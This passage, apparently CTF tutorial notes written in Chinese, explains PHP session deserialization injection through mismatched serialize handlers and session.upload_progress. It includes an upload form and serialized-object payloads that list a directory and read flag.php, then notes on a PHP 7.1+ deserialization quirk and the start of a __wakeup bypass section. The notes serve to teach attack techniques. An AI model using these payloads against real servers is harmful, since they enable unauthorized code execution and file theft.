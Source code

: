 

文件开启

`ini_set('session.serialize_handler', 'php');`

而php配置为`session.serialize_handler=php_serialize`的情况，造成`php_serialize`引擎与`php`引擎的差异

需要开启`session.upload_progress.enabled = On`一般默认on



通过POST方法来构造数据传入`$_SESSION`，首先构造POST提交表单

```php
<form action="url/index.php" method="POST" enctype="multipart/form-data"> 修改url
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```



抓包修改文件名为payload`|O:4:\"demo\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}`

读取文件的payload为`|O:4:\"demo\":1:{s:4:\"mdzz\";s:41:\"print_r(file_get_contents("./flag.php"));\";}` 



## PHP反序列化Bypass

### php7.1+反序列化对类属性不敏感

前面说了如果变量前是protected，序列化结果会在变量名前加上`\x00*\x00`，但在特定版本7.1以上则对于类属性不敏感

比如下面的例子即使没有`\x00*\x00`也依然会输出abc。

```php
<?php
class test{
protected $a;
public function __construct(){
$this->a = 'abc';
}
public function __destruct(){
echo $this->a;
}
}
unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');

#输出：abc
```



### 绕过__wakeup



#### CVE-2016-7124
